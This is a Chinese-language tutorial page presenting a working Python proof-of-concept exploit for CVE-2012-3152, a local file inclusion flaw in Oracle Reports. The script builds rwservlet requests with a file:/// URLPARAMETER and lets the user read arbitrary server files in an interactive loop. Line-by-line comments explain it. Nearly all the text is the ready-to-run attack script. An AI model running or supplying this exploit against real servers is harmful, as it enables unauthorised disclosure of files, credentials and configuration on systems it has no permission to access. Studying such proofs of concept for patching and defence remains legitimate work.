

# CVE-2012-3152


---

这一小段代码是演示的CVE-2012-3152 Oracle本地文件包含的漏洞利用PoC,与前一个PoC示例有点类似，也是通过循环可以无限输入需要访问文件目录。对于下面这一段脚本无前面有点不同。增加了一点交互性的东西。通过[termcolor](https://pypi.python.org/packages/source/t/termcolor/termcolor-1.1.0.tar.gz)模块来实现:

```
#!/usr/bin/python
import sys, urllib2    # 导入需要的包
from termcolor import colored   # 这里需要下载"termcolor"模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确"<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的URL
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:        #  循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  resource=raw_input(colored("~$ ", "red"))
  req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
  try:                    # 使用Try/Except处理响应信息
    response=urllib2.urlopen(URL+req)
    # 发起请求并且显示响应内容
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
  